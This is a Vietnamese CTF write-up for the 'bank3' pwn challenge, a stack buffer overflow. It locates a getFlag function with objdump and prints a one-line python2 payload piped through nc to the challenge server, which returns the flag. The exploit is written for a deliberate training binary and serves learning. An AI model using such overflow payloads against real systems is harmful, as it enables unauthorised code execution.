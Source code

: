 ## ⚡ [bank3](https://ctf.hcmus.edu.vn/challenges#bank3-10)

[![df](https://img.shields.io/badge/B3T4-shark-brightgreen.svg)](https://img.shields.io/badge/B3T4-shark-brightgreen.svg)
[![df](https://img.shields.io/badge/member-viplazy-brightgreen.svg)](https://img.shields.io/badge/member-viplazy-brightgreen.svg)
[![df](https://img.shields.io/badge/50-pts-brightgreen.svg)](https://img.shields.io/badge/50-pts-brightgreen.svg)

Tác giả: `xikhud`

Tags: `pwn` `bof`

### Summary

Chạy thử chương trình thì thấy nó giống challange `bank1` trước đó, lần này thì ta có thêm file binary.

Nhân tiện, challange này giống hệt [bank2](../bank2/README.md) xD.

Tìm thấy hàm `getFlag` như sau:

```c
void getFlag(void)
{
  system("cat flag.txt");
  return;
}
```

Vậy ta chỉ cần lấy địa chỉ hàm này rồi overflow là xong.

```bash
$ objdump -t bank3 | grep getFlag
08048506 g     F .text  0000002b              getFlag
```

### Exploit

Overflow để đến được hàm `getFlag` với địa chỉ vừa lấy được:

```bash
$ python2 -c 'print "A"*80 + "\x06\x85\x04\x08"' | nc 61.28.237.24 30204
[+] Please enter your name: [+] Thanks for the registration, your balance is 1094795585.
HCMUS-CTF{overwrite_all_the_things}
```

📫 Flag: **`HCMUS-CTF{overwrite_all_the_things}`**

---
*[Back to table of contents](../README.md)*
